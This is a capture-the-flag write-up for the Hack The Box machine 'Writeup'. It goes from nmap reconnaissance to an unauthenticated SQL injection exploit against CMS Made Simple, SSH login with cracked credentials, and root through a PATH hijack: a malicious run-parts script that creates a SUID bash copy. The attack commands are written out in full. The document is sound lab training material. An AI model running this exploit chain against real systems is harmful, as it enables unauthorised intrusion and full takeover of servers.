# [Writeup](https://app.hackthebox.com/machines/Writeup)

```bash
nmap -p- --min-rate 10000 10.10.10.138 -Pn   
```



After detection of open ports, let's do greater nmap scan for these ports.

```bash
nmap -A -sC -sV -p22,80 10.10.10.138 -Pn
```




After observating content of `robots.txt` file, I browse `/writeup` endpoint and see different stuff here.


From `Page Source` , I see that this is `CMS Made Simple`.




While I search publicly known exploit for this CMS, I found `Unauthenticated SQLI` vulnerability.




I use exploit from [here](https://github.com/Mahamedm/CVE-2019-9053-Exploit-Python-3.git).

```bash
python3 csm_made_simple_injection.py -u http://10.10.10.138/writeup --crack --wordlist /usr/share/wordlists/rockyou.txt
```




Let's login into machine via `ssh` by using above credentials.

jkr: 62def4866937f08cc13bab43bb14e6f7  (raykayjay9)

user.txt




Let's upload `pspy` script into machine to see background jobs.

First, I need to open http.server.
```bash
python3 -m http.server --bind 10.10.14.18 8080
```



Second, I need to download this file via `wget` command as below.
```bash
wget http://10.10.14.18:8080/pspy64
```




I just find one thing that while I join into machine via `ssh` there are root scripts are runned automatically.




When a user logs in, root runs `sh`, which runs /usr/bin/env, which provides a specific path and runs `run-parts` on the `update-motd.d` folder. 

I’ll immediately notice that the `$PATH` includes at the front the two folders I can `write` to.

I will write below malicious script to `/usr/local/bin/run-parts` make sure it’s executable.

```bash
echo -e '#!/bin/bash\n\ncp /bin/bash /bin/dr4ks\nchmod u+s /bin/dr4ks' > /usr/local/bin/run-parts; chmod +x /usr/local/bin/run-parts
```




Let's again join into machine via `ssh` to make this script trigger.

This script triggered and give `SUID` binary into copied `/bin/bash` file.




Let's execute this via `-p` option and get root shell.


root.txt

